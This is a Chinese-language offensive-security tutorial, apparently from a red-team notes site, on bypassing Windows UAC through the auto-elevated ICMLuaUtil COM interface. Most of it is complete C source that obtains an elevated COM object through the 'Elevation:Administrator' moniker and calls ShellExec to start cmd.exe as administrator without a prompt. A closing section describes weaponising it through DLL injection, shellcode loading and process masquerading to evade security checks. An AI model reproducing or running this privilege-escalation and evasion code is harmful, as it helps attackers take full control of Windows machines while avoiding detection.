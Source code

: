 # 通过com组件BypassUAC

## COM组件简介

> COM component（COM组件）是微软公司为了计算机工业的软件生产更加符合人类的行为方式开发的一种新的软件开发技术。在COM构架下，人们可以开发出各种各样的功能专一的组件，然后将它们按照需要组合起来，构成复杂的应用系统。

com组件本质上是二进制文件\(dll、exe,在windows系统内\),其调用方法与c++的类相似，程序可以通过被称为CLSID\(全局标识符\)作为索引在注册表内找到具体的二进制文件，这篇文章只会介绍应用方法，具体的逆向分析会在之后的文章内详细解释\(等公司买正版ida,现在用的盗版就不拿出来丢人了\)。

windows提供了一种com组件提权的方法，其原意大概是为了方便开发，所以当这种提提权方法的调用者是拥有微软签名的合法程序时，会忽略uac弹窗，这也为了我们利用该技术埋下了隐患。

```text
HRESULT CoCreateInstanceAsAdmin(HWND hwnd, REFCLSID rclsid, REFIID riid, __out void ** ppv)
{
    BIND_OPTS3 bo;
    WCHAR  wszCLSID[50];
    WCHAR  wszMonikerName[300];

    StringFromGUID2(rclsid, wszCLSID, sizeof(wszCLSID)/sizeof(wszCLSID[0])); 
    HRESULT hr = StringCchPrintf(wszMonikerName, sizeof(wszMonikerName)/sizeof(wszMonikerName[0]), L"Elevation:Administrator!new:%s", wszCLSID);
    if (FAILED(hr))
        return hr;
    memset(&bo, 0, sizeof(bo));
    bo.cbStruct = sizeof(bo);
    bo.hwnd = hwnd;
    bo.dwClassContext  = CLSCTX_LOCAL_SERVER;
    return CoGetObject(wszMonikerName, &bo, riid, ppv);
}
```

在com组件中，有一个名为ICMLuaUtil的接口，这个接口提供了一个名为ShellExec的方法，顾名思义，可以执行任意传入的命令，如果我们能用提权的ICMLuaUtil接口调用ShellExec，那么我们就能获得一个不受限的管理员令牌。

## 流程

1. 初始化com库
2. 创建提升权限的ICMLuaUtil接口
3. 调用ICMLuaUtil的ShellExec方法
4. 弹出一个高权限的calc\(串戏了\)。

## 代码

```text
#include "BypassUAC.h"

HRESULT CoCreateInstanceAsAdmin(HWND hwnd, REFCLSID rclsid, REFIID riid, __out void** ppv)
{

	BIND_OPTS3 bo;
	WCHAR  wszCLSID[50];
	WCHAR  wszMonikerName[300];

	StringFromGUID2(rclsid, wszCLSID, sizeof(wszCLSID) / sizeof(wszCLSID[0]));
	HRESULT hr = StringCchPrintf(wszMonikerName, sizeof(wszMonikerName) / sizeof(wszMonikerName[0]), L"Elevation:Administrator!new:%s", wszCLSID);
	if (FAILED(hr))
		return hr;
	memset(&bo, 0, sizeof(bo));

	bo.cbStruct = sizeof(bo);
	bo.hwnd = hwnd;
	bo.dwClassContext = CLSCTX_LOCAL_SERVER;
	return CoGetObject(wszMonikerName, &bo, riid, ppv);
}

BOOL CMLuaUtilBypassUAC(LPWSTR lpwszExecutable)
{
	HRESULT hr = 0;
	CLSID clsidICMLuaUtil = { 0 };
	IID iidICMLuaUtil = { 0 };
	ICMLuaUtil* CMLuaUtil = NULL;
	BOOL bRet = FALSE;


	CLSIDFromString(CLSID_CMSTPLUA, &clsidICMLuaUtil);
	IIDFromString(IID_ICMLuaUtil, &iidICMLuaUtil);

	CoCreateInstanceAsAdmin(NULL, clsidICMLuaUtil, iidICMLuaUtil, (PVOID*)(&CMLuaUtil));
	hr = CMLuaUtil->lpVtbl->ShellExec(CMLuaUtil, lpwszExecutable, NULL, NULL, 0, SW_SHOW);
	CMLuaUtil->lpVtbl->Release(CMLuaUtil);

	if (GetLastError())
	{
		return FALSE;
	}
	else {
		return TRUE;	
	}
}

int main() {
	CoInitialize(NULL);

	CMLuaUtilBypassUAC((LPWSTR)L"c:\\windows\\system32\\cmd.exe");
	CoUninitialize();
	return 0;
}
```



![](../.gitbook/assets/image%20%28141%29.png)

## 利用方法

### dll注入

把这个代码写成一个dll，然后通过进程注入的方式获得一个合法的进程环境。

### shellcode注入

利用方法和上面那个差不多，只不过注入的具体dll被打成了一个dll，我记得有这么一个开源项目可以做到，原理类似于在dll二进制代码前写一个加载器。

### 伪装进程

原理我之前的文章写过[fakecommandline](../defense-evasion/fake-commandline.md)，这篇文章的基础上再添加对ldr的伪装，就能绕过PSAPI对进程的校验，具体的代码三号学生大佬写过[this](https://3gstudent.github.io/3gstudent.github.io/%E9%80%9A%E8%BF%87COM%E7%BB%84%E4%BB%B6IFileOperation%E8%B6%8A%E6%9D%83%E5%A4%8D%E5%88%B6%E6%96%87%E4%BB%B6/)。

## LINKS






